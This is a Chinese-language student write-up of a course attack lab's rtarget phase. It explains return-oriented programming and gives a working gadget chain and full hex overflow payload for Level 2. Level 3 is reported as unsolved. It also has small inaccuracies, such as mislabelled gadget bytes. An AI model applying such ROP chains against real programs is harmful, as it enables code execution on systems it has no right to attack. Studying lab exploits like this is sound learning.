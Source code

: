 在rtarget中，使用了两种保护机制来防止Part1中的code-injection攻击成功，分别是ASLR和不可执行栈。

在Part2中，我们对rtarget使用ROP攻击，在lab给出的libc中找到我们能用的部分。

### ROP攻击介绍

对ROP攻击方法进行一个简单的介绍。由于在比较新的系统中采取了ASLR和不可执行栈，我们的代码注入变得困难，因此我们在发生缓冲区溢出时将我们的控制流重定位到一些库函数中的某一部分，让这些被信任的代码执行来完成我们的目的。而ROP攻击则是专注于那些libc函数中ret指令前的部分。我们希望能够找到一些小的指令恰好在ret前，如mov，lea，push，pop等，我们将其所需要的数据以缓冲区溢出的方式写在栈中，然后谨慎的排列这些gadget的顺序，让其完成一部分后执行ret指令，跳转至下一步。

### Level 2

我们要使用ROP重现Phase2的攻击，也就是说我们要以这种形式重写出与以下代码功能相同的ret链：

```assembly
    pushq   $0x4017ec
    movl    $0x59b997fa, %edi
    ret
```

我们要将参数保存至%rdi寄存器，一个直观的思路是找到直接向%rdi中pop数据的指令来完成，但是lab限定的libc中没有5f这一字节。因此我们观察给定的机器代码，能够使用58，将数据pop至%rax，

```assembly
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret    
```

地址为0x4019a7+0x4 = 0x4019ab；

再使用48 89 97将数据从%rax传递至%rdi，

```assembly
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret   
```

地址为0x4019a0+0x2 = 0x4019a2；

完成后再跳转至touch2即可。因此我们写入的字符串的前40个字节都是填充字节；返回地址处写58的指令地址，然后58需要pop一个数据，将我们的cookie值放入此处，然后58的指令ret位置为48 89 97 的mov指令，mov指令的ret地址为touch2的地址。注意各个地址均为64位。

因此我们的填充构造完毕，尝试输入，结果成功通过：

```assembly
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
```

### Level 3

最后一关没有成功通过，原因在于不能简单的使用Phase4+Phase3的逻辑来完成实验，因为在实验的前置内容说明了rtarget采用了站布局随机化技术，因此使用gdb来探测栈顶位置然后使用绝对地址来索引的方式是行不通的。因此需要使用fram中给出的add函数，通过栈的相对位置来索引。